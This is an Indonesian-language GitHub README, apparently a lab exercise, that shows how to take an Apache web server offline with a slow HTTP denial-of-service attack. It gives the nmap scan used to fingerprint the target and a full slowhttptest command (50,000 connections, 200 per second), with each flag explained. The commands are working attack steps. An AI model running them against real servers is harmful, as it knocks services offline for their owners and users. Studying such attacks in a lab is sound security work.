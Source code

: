 <h2 align="center">Attack dengan slowhttp </h2>
بِسْمِ اللَّهِ الرَّحْمَنِ الرَّحِيْم

## Bahan
- VM OS Debian 

## Tujuan
  Membuat Web Server menjadi DOWN / tidak dapat diakses

## Penggunaan 
- Konfigurasi Adapter Network pada VM anda dengan dua adapter yaitu NAT dan Host Only
- Konfigurasi Network menjadi dhcp pada adapter NAT/enp0s3 dan Static pada adapter Host Only/enp0s8,
  Contoh :
    ![image/image1.png](https://github.com/yogaputrarm/cacti-kons1/blob/main/image/image1.png)
- lakukan update repository terlebih dahulu
- lakukan instalasi slowhttptest dan NMAP, dengan perintah:
  ```
  apt install slowhttptest nmap
  ```
- Tunggu hingga proses instalasi selesai
- lakukan scanning untuk mendapatkan informasi teknologi apa saja yang digunakan pada server target, dengan perintah:
  ```
  nmap -sVC -O ip target
  ```
- setelah mendapatkan hasil scanning, pastikan terdapat port 80 yang berisi service Apache dalam keadaan terbuka
- kemudian lakukan penyerangan pada port 80, dengan perintah
  ```
  slowhttptest -c 50000 -H -r 200 -t GET -u http://ip target/ -x 24 -p 3 -l 9999
  ```
  Note :
    -c 50000 = total koneksi yang dikirimkan
    -H = memperlambat headers dari website
    -r 200 = melakukan koneksi 200/detik
    -t GET = metode GET saat request
    -u = url target //http:ip target/
    -x 24 = panjang data random yang dikirim sebanyak 24
    -p 3 = waktu saat timeout selama 3 detik
    -l 9999 = bata waktu penargetan
- Masuk pada mode monitoring penyerangan 
- Tunggu `service available` yang berawal dari "YES" menjadi "NO"
- sebelum penyerangan
  ![image](image/image1.png)
- sesudah penyerangan
  ![image](image/image2.png)

